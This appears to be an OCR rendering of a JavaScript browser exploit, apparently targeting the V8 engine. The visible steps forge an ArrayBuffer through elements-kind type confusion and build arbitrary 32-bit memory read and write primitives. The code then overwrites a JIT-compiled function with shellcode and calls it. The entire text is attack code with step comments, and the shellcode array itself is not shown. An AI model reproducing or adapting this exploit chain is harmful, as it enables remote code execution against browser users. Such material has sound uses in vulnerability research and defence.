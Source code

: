 ```
    0x12345678,0x123,/* buffer address */
    0x4,0x0
]
var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(fake_ab,fake_ab_float);
/******************************* step 3    read fake_ArrayBuffer_address   ***************************************/
change_elements_kind_parameter(evil4,fake_ab_float);
fake_ab_float_addr = u2d(e4())+0x40;
/******************************* step 4 fake a ArrayBuffer   ***************************************/
fake_ab_float_addr_f = d2u(fake_ab_float_addr / 0x100000000,fake_ab_float_addr &amp; 0xffffffff).toString();
eval('function e3()`{`  evil3[1] = '+fake_ab_float_addr_f+';`}`')
for(var i = 0;i&lt;0x6000;i++)`{`
    e3();
`}`
change_elements_kind_array(evil3);
e3();
fake_arraybuffer = evil3[1];
if(fake_arraybuffer instanceof ArrayBuffer == true)`{`
`}`
fake_dv = new DataView(fake_arraybuffer,0,0x4000);
/******************************* step 5 Read a Function Address   ***************************************/
var func_body = "eval('');";
var function_to_shellcode = new Function("a",func_body);
change_elements_kind_parameter(evil4,function_to_shellcode);
shellcode_address_ref = u2d(e4()) + 0x38-1;
/**************************************  And now,we get arbitrary memory read write!!!!!!   ******************************************/
    function Read32(addr)`{`
        fake_ab_float[4] = d2u(addr / 0x100000000,addr &amp; 0xffffffff);
        return fake_dv.getUint32(0,true);
    `}`
    function Write32(addr,value)`{`
        fake_ab_float[4] = d2u(addr / 0x100000000,addr &amp; 0xffffffff);
        alert("w");
        fake_dv.setUint32(0,value,true);
    `}`
    shellcode_address = Read32(shellcode_address_ref) + Read32(shellcode_address_ref+0x4) * 0x100000000;;
    var addr = shellcode_address;
    fake_ab_float[4] = d2u(addr / 0x100000000,addr &amp; 0xffffffff);
    for(var i = 0; i &lt; shellcode.length;i++)`{`
        var value = shellcode[i];        
        fake_dv.setUint32(i * 4,value,true);
    `}`
    alert("boom");
    function_to_shellcode();
&lt;/script&gt;
```
